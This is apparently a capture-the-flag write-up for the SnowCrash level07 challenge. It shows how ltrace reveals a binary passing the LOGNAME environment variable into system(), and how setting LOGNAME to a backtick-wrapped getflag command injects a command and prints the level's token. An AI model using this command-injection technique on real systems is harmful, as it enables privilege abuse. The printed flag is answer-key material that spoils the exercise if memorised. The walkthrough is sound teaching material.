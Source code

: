 ## level07

home dir has an exec called level07
I did `objdump -d level07` to disassemble the binary and found `system@plt` which seems to be a system call in the function `main`, upon googling I find an exploit: 
https://github.com/Bretley/how2exploit_binary/blob/master/exercise-2/README.md

Simple ltrace showed me the following:

	getenv("LOGNAME")                                             = "level07"
	asprintf(0xbffff704, 0x8048688, 0xbfffff37, 0xb7e5ee55, 0xb7fed280) = 18
	system("/bin/echo level07 "level07
	<unfinished ...>

So now I check the env variable LOGNAME has the username "level07" and that the syscall executes echo to print the LOGNAME variable

	level07@SnowCrash:~$ echo $LOGNAME
	level07
	level07@SnowCrash:~$ export LOGNAME="`getflag`"
	level07@SnowCrash:~$ ./level07
	Check flag.Here is your token : `fiumuikeil55xe9cu4dood66h`
